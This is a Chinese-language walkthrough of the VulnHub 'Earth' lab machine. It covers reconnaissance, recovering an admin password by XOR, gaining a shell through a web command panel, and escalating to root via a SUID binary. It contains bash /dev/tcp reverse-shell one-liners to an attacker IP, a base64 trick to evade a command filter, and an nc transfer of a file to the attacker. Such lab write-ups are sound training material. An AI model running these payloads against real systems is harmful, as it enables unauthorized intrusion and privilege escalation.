靶场搭建
靶机下载地址：The Planets: Earth ~ VulnHub
直接解压双击 ova 文件即可导入。建议使用 VirtualBox（官方推荐），攻击机使用 Kali Linux。难度：简单。
信息收集
端口扫描
先明确靶机 IP，然后使用 nmap 扫描：
nmap -A -T4 -p- 192.168.21.145
扫描结果中有一个关键信息：
Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.localDNS 解析
修改 /etc/hosts 文件，添加 IP 与域名的映射：
vim /etc/hosts添加以下内容：
192.168.21.145 earth.local
192.168.21.145 terratest.earth.local直接输入 URL 即可访问：

目录扫描
使用 dirb 进行目录扫描：
dirb https://terratest.earth.local/
dirb https://earth.local/

在 terratest.earth.local 中发现 robots.txt，在 earth.local 中发现 admin 目录。
访问 /admin/：

访问 robots.txt：

其中包含敏感信息 testingnotes.txt。
访问 testingnotes.txt：

内容摘要：
- Using XOR encryption as the algorithm, should be safe as used in RSA.
- testdata.txt was used to test encryption.
- terra used as username for admin portal.
得知加密算法为 XOR，用户名为 terra，且存在 testdata.txt。
直接访问 testdata.txt（txt 文件不能用 dirb 扫出来）：

内容为一段关于地球形成的描述文本。
Web 攻击
XOR 解密
根据 XOR 运算性质 a XOR b XOR a = b，在本靶机中 a 为 message，b 为 message key，a XOR b 为 previous message。只要用 previous message 和 message 做一次 XOR 运算，即可得到 message key。
从 earth.local 页面已知 3 个 previous message，从 testingnotes.txt 已知 testdata.txt 至少做过一次 message。用 testdata.txt 的内容和 3 个 previous message 分别进行 XOR 操作，发现第 3 条是 testdata.txt 内容与 message key 进行 XOR 运算的结果：
2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1b040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a使用 CyberChef 解码：

将解密结果转换为十六进制，以 testdata.txt 内容为 key 进行 XOR 操作（编码选 UTF8），得到一组循环字符串：earthclimatechangebad4humans。
登录后台
使用用户名 terra 和密码 earthclimatechangebad4humans 登录：

登录后发现有命令行执行功能：

确认命令执行成功。
反弹 Shell
尝试直接反弹 shell 被 ban：
bash -c 'exec bash -i &>/dev/tcp/192.168.21.134/666 <&1'

使用 base64 编码绕过。用 Burp 抓包：

对 payload 进行 base64 编码：
echo 'bash -i >& /dev/tcp/192.168.21.134/8888 0>&1'>/tmp/1|base64 -d|sh
权限提升
连接完成后搜索 SUID 文件：
find / -user root -perm /4000 2>/dev/null
发现一个可疑的 /usr/bin/reset_root。
SUID 分析
查看可读内容：
strings /usr/bin/reset_root
可见该可执行文件将 root 密码修改为 Earth。
直接执行发现失败，需要触发条件：

ltrace 分析
靶机上没有 ltrace，需要将 /usr/bin/reset_root 传到攻击机分析。使用 nc 传输：
攻击机监听：
nc -nlvp 2222 > reset_root靶机发送：
nc 192.168.101.34 2222 < /usr/bin/reset_root攻击机上赋予执行权限并用 ltrace 跟踪：
chmod +x reset_root
ltrace ./reset_root
发现触发条件是需要同时存在三个文件：/dev/shm/kHgTFI5G、/dev/shm/Zw7bV9U5、/tmp/kcM0Wewe。
获取 Root 权限
在靶机上创建这三个文件：
touch /tmp/kcM0Wewe
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
/usr/bin/reset_root
执行成功，root 密码被修改为 Earth。
使用 su 提权到 root，密码为 Earth，并在 /root 目录下获得 flag：
